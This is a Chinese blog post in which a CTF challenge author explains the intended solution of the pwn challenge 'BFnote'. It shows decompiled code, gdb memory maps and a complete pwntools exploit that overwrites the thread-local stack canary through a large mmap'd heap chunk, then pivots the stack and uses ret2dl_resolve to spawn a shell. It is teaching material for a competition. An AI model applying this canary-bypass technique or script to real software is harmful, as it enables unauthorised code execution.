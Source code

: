 ```yaml
---
layout:     post
title:      "春秋杯网络安全公益联赛 出题小结"
subtitle:   "新春战疫，为逆行者加油！"
date:       2020-02-24 11:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - CTF
 
---
```


>博客就快长草了

### [出题思路]： 

常规栈溢出的canary绕过方法有leak，fork爆破，劫持`__stack_chk_fail`,还有一种就是覆盖TLS中储存的Canary值。之前starctf2018中有一道babystack就是利用这一方法，但是那道题是跑了新个线程。

这样的话thread_stack线程栈中，TCB结构在thread_stack的高地址，当前栈帧在低地址，所以只要溢出长度够大就能覆盖到TCB中的canary。

但是对于主线程来说，在glibc2.23 32位环境下，TLS被初始化时存在一点问题，特殊情况下导致TCB结构的地址可定位

### [writeup]：


1.检查题目保护，发现开了CANARY与NX

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```


2.发现存在栈溢出与堆地址任意偏移写任意值 可利用

```
unsigned int __cdecl main()
{
  signed int i; // [esp+4h] [ebp-54h]
  int size; // [esp+8h] [ebp-50h]
  char *v3; // [esp+Ch] [ebp-4Ch]
  int v4; // [esp+14h] [ebp-44h]
  char description; // [esp+1Ah] [ebp-3Eh]
  unsigned int v6; // [esp+4Ch] [ebp-Ch]

  v6 = __readgsdword(0x14u);
  menu();
  fwrite("\nGive your description : ", 1u, 0x19u, stdout);
  memset(&description, 0, 0x32u);
  myread(0, &description, 1536);   //栈溢出
  fwrite("Give your postscript : ", 1u, 0x17u, stdout);
  memset(&postscript, 0, 0x64u);
  myread(0, &postscript, 1536);
  fwrite("\nGive your notebook size : ", 1u, 0x1Bu, stdout);
  size = get_long();
  v3 = (char *)malloc(size);
  memset(v3, 0, size);
  fwrite("Give your title size : ", 1u, 0x17u, stdout);
  v4 = get_long();
  for ( i = v4; size - 32 < i; i = get_long() )   //重复输入
    fwrite("invalid ! please re-enter :\n", 1u, 0x1Cu, stdout);
  fwrite("\nGive your title : ", 1u, 0x13u, stdout);
  myread(0, v3, i);
  fwrite("Give your note : ", 1u, 0x11u, stdout);
  read(0, &v3[v4 + 16], size - v4 - 16);  // 逻辑漏洞，错误的使用了重复输入之前的值，基于堆地址任意地址写
  fwrite("\nnow , check your notebook :\n", 1u, 0x1Du, stdout);
  fprintf(stdout, "title : %s", v3);
  fprintf(stdout, "note : %s", &v3[v4 + 16]);
  return __readgsdword(0x14u) ^ v6;

```

3.当一个函数被调用，当前线程的tcbhead_t.stack_guard会放置到栈上(也就是canary)，32位下gs寄存器指向tcb，可以细看源码。在函数调用结束的时候，栈上的值被和tcbhead_t.stack_guard比较，如果两个值是不 相等的，程序将会返回error并且终止。 

```
typedef struct {   
void *tcb;        /* Pointer to the TCB.  Not necessarily the thread descriptor used by libpthread.  */   
dtv_t *dtv;   
void *self;       /* Pointer to the thread descriptor.  */   
int multiple_threads;   
int gscope_flag;   
uintptr_t sysinfo;   
uintptr_t stack_guard;   
uintptr_t pointer_guard;   
... } tcbhead_t; 

```


4.在glibc2.23-i386的环境下，main线程的tcb块被mmap初始化在libc内存布局上方。

```
 ►   0x8048772    mov    eax, dword ptr gs:[0x14] 

EAX  0x5ba0b500

```

```

pwndbg> search -p 0x5ba0b500
                0xf7e00714 0x5ba0b500
[stack]         0xffffcecc 0x5ba0b500
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/b0ldfrev/icq/BFnote
 0x8049000  0x804a000 r--p     1000 0      /home/b0ldfrev/icq/BFnote
 0x804a000  0x804b000 rw-p     1000 1000   /home/b0ldfrev/icq/BFnote
0xf7e00000 0xf7e01000 rw-p     1000 0      
0xf7e01000 0xf7fb1000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb1000 0xf7fb3000 r--p     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb4000 rw-p     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb7000 rw-p     3000 0      
0xf7fd3000 0xf7fd4000 rw-p     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfff0e000 0xffffe000 rw-p    f0000 0      [stack]

```

可以看到canary在0xf7e00714这个地址刚好在libc-2.23.so代码段上方


5.当调用malloc申请内存时，若size大于等 mmap分配阈值（默认值 128KB）0x200000时，malloc会调用mmap申请内存，且申请的内存可以观察到同样在libc上方。

```

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/b0ldfrev/icq/BFnote
 0x8049000  0x804a000 r--p     1000 0      /home/b0ldfrev/icq/BFnote
 0x804a000  0x804b000 rw-p     1000 1000   /home/b0ldfrev/icq/BFnote
0xf7bff000 0xf7e01000 rw-p   202000 0      
0xf7e01000 0xf7fb1000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fb1000 0xf7fb3000 r--p     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb4000 rw-p     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb7000 rw-p     3000 0      
0xf7fd3000 0xf7fd4000 rw-p     1000 0      
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfff0e000 0xffffe000 rw-p    f0000 0      [stack]

```

6.利用思路就是在最开始栈溢出的时候将canary填成值A，并做好栈迁移的准备，在.bss构造resolve数据，
申请notebook大小0x200000，使其地址在libc上方；tille大小故意输错成堆地址ptr到tcb中canary的偏移，二次输入时给一个正确值，这下在输入note内容时就可以修改tcb中canary的值为A。main函数返回时绕过canary检查，迁移去执行dl_rutime_resolve，有个坑是由于栈迁移，尽量迁移后抬到bss高地址处执行，resolve数据尽量放到比指令更高的地址。



7.EXP

```python

from pwn import *
context(os='linux', arch='i386', log_level='debug')
#[author]: b0ldfrev

p= process('./BFnote')

def debug(addr,PIE=True):
    if PIE:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        print "breakpoint_addr --> " + hex(text_base + 0x202040)
        gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p,"b *{}".format(hex(addr))) 

sd = lambda s:p.send(s)
sl = lambda s:p.sendline(s)
rc = lambda s:p.recv(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)


dl_resolve_data="\x80\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x37\x66\x66\x5a\x6d\x59\x50\x47\x60\xa1\x04\x08\x07\x25\x02\x00\x73\x79\x73\x74\x65\x6d\x00"
dl_resolve_call="\x50\x84\x04\x08\x70\x20\x00\x00"



canary=0xdeadbe00
postscript=0x804A060
#correct=0x804a428

payload1="1"*0x32+p32(canary)+p32(0)+p32(postscript+4+0x3a8)

ru("description : ")
sd(payload1)


payload2="s"*0x3a8+dl_resolve_call+p32(0x12345678)+p32(postscript+0x3b8)+"/bin/sh\x00"+p64(0)+dl_resolve_data

ru("postscript : ")
sd(payload2)


ru("notebook size : ")
sl(str(0x200000))

ru("title size : ")
sl(str(0x20170c-0x10))

ru("please re-enter :\n")
sl(str(100))

ru("your title : ")
sl("2222")

ru("your note : ")

sd(p32(canary))

p.interactive()

```


8.程序我忘了设置sleep，所以还存在极小概率的canary爆破，比赛时间那么长，就3个字节嘛 ~ 手动狗头，如果各位大师傅还有非预期 欢迎讨论~